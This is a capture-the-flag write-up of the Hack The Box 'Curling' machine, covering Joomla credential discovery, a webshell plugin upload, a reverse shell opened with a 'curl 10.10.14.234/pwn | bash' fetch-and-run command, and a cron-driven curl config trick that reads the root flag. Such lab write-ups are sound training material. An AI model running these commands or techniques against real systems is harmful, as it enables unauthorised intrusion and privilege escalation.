



# Curling

**Date**: 13/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Curling](https://app.hackthebox.com/machines/Curling)

***

Let’s start testing the connection with the target machine:

<figure><figcaption></figcaption></figure>

We receive back the packet, so we have connection. Let’s scan the open TCP ports:

<figure><figcaption></figcaption></figure>

The scan discovered 2 open TCP ports: 22 (ssh) and 80 (http). Let’s try to obtain the service and version running in these ports:

<figure><figcaption></figcaption></figure>

We got OpenSSH 7.6p1 running in the port 22.

<figure><figcaption></figcaption></figure>

According to launchpad, the target machine should be a Ubuntu Bionic.

And we have an Apache 2.4.29 service running in the port 80. We can also see that is hosting a Joomla. Let’s try to obtain more info of the website using whatweb:

<figure><figcaption></figcaption></figure>

It doesn’t give us additional useful information. Let’s see how the website looks:

<figure><figcaption></figcaption></figure>

It looks very simple. There are 3 post written by the user Super User. There is something in the first post that catches my eye, the word `curling2018`. It looks like a password maybe? The post is also signed by Floris, maybe that could be a username?It worth the try.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Nope, at least not that combination of user and password. I also tried with `admin` and `administrator` usernames.

Let’s see the source code to see if we can obtain the Joomla version:

<figure><figcaption></figcaption></figure>

secret.txt? weird… It would be a file accessible?

<figure><figcaption></figcaption></figure>

Yes… it is. Maybe we can try to login again using that string as a password.

I tried, with no success. The way this string looks… maybe is coded in b64?

<figure><figcaption></figcaption></figure>

Yeah! Let’s try again:

<figure><figcaption></figcaption></figure>

Woho! We succeded login with the credentials!

We seen that the SSH port was open, let’s try to use this credentials to gain access to the target machine:

<figure><figcaption></figcaption></figure>

Ok, this credentials are not valid for the SSH connection.

Let’s see if we can access to the administration panel of the Joomla:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Yup! Let’s see if we can see the version:

<figure><figcaption></figcaption></figure>

As we are inside the administration panel, maybe we can install a webshell or a reverse shell php file… Let’s investigate.

After a research, I found this github repo:

[https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

It contains a Joomla extension that we can upload to the website and it will give us a webshell. Pretty cool!

So, let’s follow all the instructions! And try to execute a command!

<figure><figcaption></figcaption></figure>
Yeah! We succesfully executed the `ls` command!

Let’s see if we can ping out machine from the target machine:

<figure><figcaption></figcaption></figure>

Yes we can! Let’s try to establish a revshell to operate more easily:

First of all, I’m going to create a `pwn` file in my system with the payload to establish a reverse shell and share it using a http server:

<figure><figcaption></figcaption></figure>

Now, I’m going to execute a command that will read that file from my computer and will pipe it to the bash, executing the command:

`curl 10.10.14.234/pwn | bash`

but URL encoded:

`curl%2010.10.14.234%2Fpwn%20%7C%20bash`

<figure><figcaption></figcaption></figure>

And we obtained a revshell.

<figure><figcaption></figcaption></figure>

We have no permissions to read the user flag, but we can read the password\_backup file:

<figure><figcaption></figcaption></figure>

Let’s copy it in our machine:

<figure><figcaption></figcaption></figure>

It looks like an hexadecimal version of something, let’s try to get the original file:

`xxd -revert password_backup password_backup_original`

<figure><figcaption></figcaption></figure>

Ok, we got a bzip2 file. Let’s decompress it using bzip2 tool:

<figure><figcaption></figcaption></figure>

And… now we have a gzip file… let’s rename it and decompress it:

<figure><figcaption></figcaption></figure>

And… another bzip2 file… let’s decompress it:

<figure><figcaption></figcaption></figure>

Now a POSIX tar. Let’s decompress it too:

<figure><figcaption></figcaption></figure>

Finally a txt file!

Ok, it’s a strange password, but let’s try to use it to login as `floris` via SSH:

<figure><figcaption></figcaption></figure>

Yeah, we are in! Let’s read the user flag:

<figure><figcaption></figcaption></figure>

Now we have to escalate our privileges… Let’s start looking if we have sudo privileges:

<figure><figcaption></figcaption></figure>

Nothing. Let’s look for SUID binaries:

<figure><figcaption></figcaption></figure>

None of them (except polkit) can be used to escalate… Let’s look for binaries with capabilities:

<figure><figcaption></figcaption></figure>

Nothing useful. Maybe there is a cronjob?

<figure><figcaption></figcaption></figure>

Nope. Maybe can we edit something that is in the PATH?

<figure><figcaption></figcaption></figure>

Ok, I’m out of ideas, so let’s go back to the initial point. There is a folder we have not inspected yet.

The modification date of the files was suspicious, I waited a minute to confirm that they are being updated each minute.

<figure><figcaption></figcaption></figure>

Nice moment to use pspy to see what’s going on.

<figure><figcaption></figcaption></figure>

each minute, the input file is being overwritten and after that, a curl command is being executed. I’m sure I can use this to escalate or, at least, to read the /root/root.txt flag.

<figure><figcaption></figcaption></figure>

the `-K` option reads the config from input file.

<figure><figcaption></figcaption></figure>

The input is pointing to [localhost](http://localhost) IP.

Ok, so I think that there are some possibilities:

1. Try to edit the content of `input` file after the script that executes each minute does it and before the automatic `curl` command.
2. Try to redirect the [localhost](http://localhost) to other folder instead of `/var/www/http`
3. Try to include a file into the web the curl is requesting that only root has access to (/root/root.txt)

Let’s start with the first one.

<figure><figcaption></figcaption></figure>

After looking to the pspy a while, we can recognize some scripts being executed:

* `/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input` : This script is waiting 1 second, and then, copying the content of the file **default.txt** inside the **input** file
* `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report` : This script is doing a **curl** to the url inside the **input** file and saving the response inside the file **report**

I’m thinking that, as the first script is waiting 1 second before executing the curl, maybe is executing after the curl script. This would mean that if we edit the input file, the curl may use our URL instead of the default one? Let’s try.

As `curl` accepts the `url="file//path-to-file"` parameter, we can point to `/root/root.txt` hoping the flag is there. If it’s there and this script is executing first, we should copy the content of the flag into the `report` file. We have to be fast, as after 1 minute, the cult command will use the default input file and will overwrite the report file.

<figure><figcaption></figcaption></figure>

So, I have changed the content of `input`. As can be seen in the bottom of the image, after the change, the report remains as the webpage content.

<figure><figcaption></figcaption></figure>

After a minute I performed a `cat report` command, and voila! We got the root flag content.
